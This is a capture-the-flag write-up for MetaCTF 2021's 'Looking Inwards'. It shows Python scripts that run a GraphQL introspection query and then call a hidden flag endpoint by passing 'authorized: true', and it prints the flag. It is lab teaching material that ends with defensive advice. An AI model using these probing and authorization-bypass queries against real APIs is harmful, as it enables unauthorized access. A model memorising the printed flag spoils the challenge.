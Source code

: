 # MetaCTF 2021

## Looking Inwards (300pts)

### Description:

> It's always fun to take a moment of introspection, in this case not about
> oneself, but about our field (development/security). For example when it
> comes to API design, first there were SOAP endpoints primarily based on XML.
> Then as Web 2.0 came along, RESTful APIs became all the rage. Recently,
> technologies like GraphQL began to gain traction.

> With new technologies, though, come new classes of attacks. Check out this
> basic [GraphQL API
> server](https://metaproblems.com/bb0e56b64e0a17b47450457b07fd2353/graphql.php).
> To get you started, here's one cool thing it can do: If you send it a
> `query` in the form of `echo(message: "message_here")`, it will respond with
> what you said. Can you get it to give you the flag?

### Included Files:

> No files provided

### Step 1 - Sending a Query to the GraphQL API

Before we could attempt to find the flag, first we wanted to get a valid
response back from the GraphQL server using the query `echo(message:
"message_here")` which was provided in the challenge description.

We used the following [tutorial](https://towardsdatascience.com/connecting-to-
a-graphql-api-using-python-246dda927840) from `Towards Data Science` which
walked us through how to send a GraphQL request using Python. Below allowed us
to send that query.

```python  
import requests  
import pandas as pd

query = '''query {  
	echo(message: "message_here")  
}'''

url = 'https://metaproblems.com/bb0e56b64e0a17b47450457b07fd2353/graphql.php'  
r = requests.post(url, json={'query': query})  
print(r.text)  
```

Output:

```JSON  
{"data":{"echo":"You said: message_here"}}  
```

### Step 2 - Find Other Endpoints on GraphQL API

After a bit of research, we learned we can use a technique called
`introspection` on GraphQL APIs to find other endpoints. Using the following
[tutorial](https://blog.yeswehack.com/yeswerhackers/how-exploit-graphql-
endpoint-bug-bounty/) from `Yes We Hack`, they included the following request:

```  
{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name
description locations args{...InputValue}}}}fragment FullType on __Type{kind
name description fields(includeDeprecated:true){name description
args{...InputValue}type{...TypeRef}isDeprecated
deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name
description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment
InputValue on __InputValue{name description
type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind
name ofType{kind name ofType{kind name ofType{kind name ofType{kind name
ofType{kind name ofType{kind name}}}}}}}}  
```

After putting this request into our script from the previous step, we found
the following in the output:

```JSON  
{  
   "name": "super_super_secret_flag_dispenser",  
   "description": null,  
   "args": [{  
       "name": "authorized",  
       "description": null,  
       "type": {  
           "kind": "NON_NULL",  
           "name": null,  
           "ofType": {  
               "kind": "SCALAR",  
               "name": "Boolean",  
               "ofType": null  
           }  
       },  
       "defaultValue": null  
   }],  
   "type": {  
       "kind": "NON_NULL",  
       "name": null,  
       "ofType": {  
           "kind": "SCALAR",  
           "name": "String",  
           "ofType": null  
       }  
   },  
   "isDeprecated": false,  
   "deprecationReason": null  
   }],  
   "inputFields": null,  
   "interfaces": [],  
   "enumValues": null,  
   "possibleTypes": null

}  
```  
This shows that there is an endpoint called
`super_super_secret_flag_dispenser` that takes in a boolean called
`authorized`.

## Step 3 - Retrieving the Flag

Using the information from the previous step, we crafted the following query:

```  
query {  
   super_super_secret_flag_dispenser(authorized: true)  
}  
```

Our final script looks like this:

```Python  
import requests  
import pandas as pd

query = '''query{  
   super_super_secret_flag_dispenser(authorized: true)  
}'''

url = 'https://metaproblems.com/bb0e56b64e0a17b47450457b07fd2353/graphql.php'  
r = requests.post(url, json={'query': query})  
print(r.text)  
```

<details>  
<summary> Output (contains the flag) </summary>  

  
{"data":{"super_super_secret_flag_dispenser":"MetaCTF{look_deep_and_who_knows_what_you_might_find}"}}  

  
</details>

<details>  
   <summary> Flag Spoiler </summary>  
   MetaCTF{look_deep_and_who_knows_what_you_might_find}  
</details>

## Learning Takeaways  
We can use introspection in order to discover endpoints of a GraphQL API.
GraphQL APIs can disable introspection and it is a recommended practice for
production. Well-made documentation is preferred. Python is a powerful tool
for completing GraphQL challenges in the future.  

Original writeup
(https://github.com/team23ctf/writeups/blob/main/metactf2021/Looking%20Inwards/Looking%20Inwards.md).